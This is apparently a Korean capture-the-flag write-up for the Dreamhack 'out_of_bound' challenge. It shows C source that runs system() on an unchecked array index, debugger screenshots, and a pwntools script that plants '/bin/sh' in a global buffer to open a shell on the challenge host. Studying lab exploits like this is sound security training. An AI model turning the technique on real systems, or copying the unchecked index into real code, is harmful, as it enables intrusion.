 out_of_bound 라이트업
============

## 코드 분석


```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>
#include <string.h>

char name[16];

char *command[10] = {
    "cat",
    "ls",
    "id",
    "ps",
    "file ./oob" };
void alarm_handler()
{
    puts("TIME OUT");
    exit(-1);
}

void initialize()
{
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

int main()
{
    int idx;

    initialize();

    printf("Admin name: ");
    read(0, name, sizeof(name));
    printf("What do you want?: ");

    scanf("%d", &idx);

    system(command[idx]);

    return 0;
}
```

* name 전역 변수에 16바이트까지 원하는 값을 넣을 수 있다.
* cat, ls, id, ps, file ./oob의 5개의 명령어를 system 함수를 통해 셸에서 실행시킨 결과를 얻을 수 있다.
* oob 취약점을 통해 command [idx]에 "/bin/sh\x00"이 들어가게 해야한다.


## 익스플로잇

* command[idx]의 값이 cat, ls, id, ps, file ./oob 5개 중 하나로 정해지려면 idx에는 0에서 4부터의 값만 들어가야 한다.
* idx의 범위에 대한 검사를 진행하지 않기 때문에 음수 값을 집어넣어 command 주소보다 더 앞의 주소를 가져오거나
* 4보다 큰 값을 집어넣어 file ./oob 가 저장된 주소보다 더 뒤의 주소를 가져올 수 있다.


### command 와 name 의 주소 확인

<img width="770" height="107" alt="image" src="https://github.com/user-attachments/assets/96585d95-4565-4f36-96e4-da7468f14d4f" />

두 주소는 76바이트만큼 차이가 난다.   

여기서 command[19] = 0x804a060 + 76 이 되어 name 주소에 저장되어 있는 값을 가리킨다. 

-----

### system 함수에 인자 전달

<img width="747" height="185" alt="image" src="https://github.com/user-attachments/assets/307fe239-21a0-47a3-a942-0f0a7952f013" />

system 함수 호출 직전에 bp걸고 진행하면 

<img width="1073" height="306" alt="image" src="https://github.com/user-attachments/assets/4a24489d-1b13-44ef-ac80-8816dfdca7d1" />

system 함수에 인자로 eax 레지스터의 값인 "/bin" 이 들어간다. eax에는 name의 주소가 들어가야 한다.


-----

### payload 작성

```python
from pwn import *

p = remote("host1.dreamhack.games", 19448)

payload = b"/bin/sh\x00" + p32(0x804a0ac)

p.sendline(payload)
p.sendline(b"21")

p.interactive()
```

## 실행 결과

<img width="1186" height="288" alt="image" src="https://github.com/user-attachments/assets/1fa13bfc-b3bc-4db3-9bee-86c500ea75cc" />

